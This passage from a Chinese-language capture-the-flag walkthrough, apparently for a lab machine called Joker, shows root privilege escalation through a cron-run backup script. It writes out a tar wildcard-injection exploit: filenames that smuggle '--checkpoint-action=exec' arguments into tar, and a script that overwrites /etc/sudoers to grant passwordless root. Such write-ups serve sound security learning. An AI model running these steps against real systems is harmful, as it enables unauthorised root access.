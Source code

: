 猜想验证成功，计划任务每隔五分钟执行`/root/backup.sh`

``` shell
./pspy64
```

![截屏2024-03-24 03.13.26](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2003.13.26.png)

### 通配符提权

利用计划任务的`tar`命令和通配符为当前用户写入 sudo 权限
``` shell
cd /home/alekos/development && echo 'echo "alekos ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
cd /home/alekos/development && echo "" > "--checkpoint-action=exec=sh privesc.sh"
cd /home/alekos/development && echo "" > --checkpoint=1
```

当执行以上命令后`tar`一旦计划任务执行就会配合参数运行`privesc.sh`

``` shell
tar cf backup.tar --checkpoint=1 --checkpoint-action=exec=sh privesc.sh
```

等待五分钟后通过 sudo 命令成功拿到 root 权限

``` shell
sudo su
```
![截屏2024-03-24 03.23.28](/assets/media/Joker/%E6%88%AA%E5%B1%8F2024-03-24%2003.23.28.png)
